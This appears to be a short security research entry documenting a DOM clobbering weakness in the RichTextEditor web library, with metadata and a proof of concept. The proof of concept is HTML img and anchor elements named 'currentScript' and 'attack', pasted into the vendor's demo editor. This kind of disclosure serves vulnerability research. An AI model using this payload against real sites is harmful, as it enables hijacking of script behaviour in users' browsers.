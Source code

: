 ## RichTextEditor

### Meta

+ Library: RichTextEditor
+ Version: Latest
+ Stars: N/A
+ Fingerprint: `document.getElementsByClassName('richtexteditor').length > 0`
+ Input: Copy&Paste
+ Sanitizer: N/A
+ Capability: Any Tag & Any named property
+ CVE: N/A
+ Status: N/A

### Library

https://richtexteditor.com/

### Vulnerable Code Snippet & PoC 

Goto the following URL:
https://richtexteditor.com/Demos/

Copy & Paste the following rendered HTML elements to the editor:
```
<img name="currentScript" src="https://xxx.xxx.xxx">
<img name="attack" src="https://xxx.xxx.xxx">
<a name="attack" href="https://xxx.xxx.xxx">AAA</a>
```

Run the following code:
```
editor.getHTMLCode()
```